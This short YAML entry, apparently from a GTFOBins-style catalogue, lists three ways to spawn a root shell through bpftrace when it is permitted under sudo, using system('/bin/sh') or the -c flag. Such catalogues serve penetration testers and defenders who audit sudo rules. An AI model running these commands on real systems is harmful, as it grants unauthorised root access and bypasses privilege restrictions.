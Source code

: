 ```yaml
---
functions:
  sudo:
    - code: sudo bpftrace -e 'BEGIN {system("/bin/sh");exit()}'
    - code: |
        TF=$(mktemp)
        echo 'BEGIN {system("/bin/sh");exit()}' >$TF
        sudo bpftrace $TF
    - code: sudo bpftrace -c /bin/sh -e 'END {exit()}'
---
```

